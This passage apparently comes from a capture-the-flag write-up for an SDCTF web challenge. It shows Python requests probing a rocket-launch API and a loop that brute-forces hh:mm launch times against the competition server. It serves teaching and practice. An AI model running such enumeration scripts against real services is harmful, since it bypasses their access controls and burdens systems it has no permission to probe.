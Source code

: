```python
import requests
data = {"rocket": "random"}
url = "https://space.sdc.tf/api/rocketLaunch"
res = requests.post(url, json=data)
print(res.text)
```
```
rocket not recognized (available: triton)
```
Oh, it accepts triton as a rocket.

```python
import requests
data = {"rocket": "triton"}
url = "https://space.sdc.tf/api/rocketLaunch"
res = requests.post(url, json=data)
print(res.text)
```
```
launchTime not specified
```

And providing a random launch time - 

```python
import requests
data = {"rocket": "triton", "launchTime": "random"}
url = "https://space.sdc.tf/api/rocketLaunch"
res = requests.post(url, json=data)
print(res.text)
```
```
launchTime not in hh:mm format
```
Okay !
```python
import requests
data = {"rocket": "triton", "launchTime": "00:01"}
url = "https://space.sdc.tf/api/rocketLaunch"
res = requests.post(url, json=data)
print(res.text)
```
```
launchTime unapproved
```

Cool, we got a break to think here. What would be the launch time? I tried looking in the other API paths. Tried 13:37 from challenge name, but nothing really worked. But then i decided to Brute force

There are 24 hours and 60 minutes. So we get the min time to be 00:00 while the maximum time of 23:59. So the possiblities are few being **24x60=1440**

So i used a small python script!

```python
import requests
url = "https://space.sdc.tf/api/rocketLaunch"

for i in range(11, 24):
    for j in range(60):
        time = str(i).zfill(2) + ':' + str(j).zfill(2)
        data = {"rocket": "triton", "launchTime": time}
        res = requests.post(url, json=data)
        
        if len(res.text) > 21:
            print("Got the correct time: " + time)
            exit()
        
```
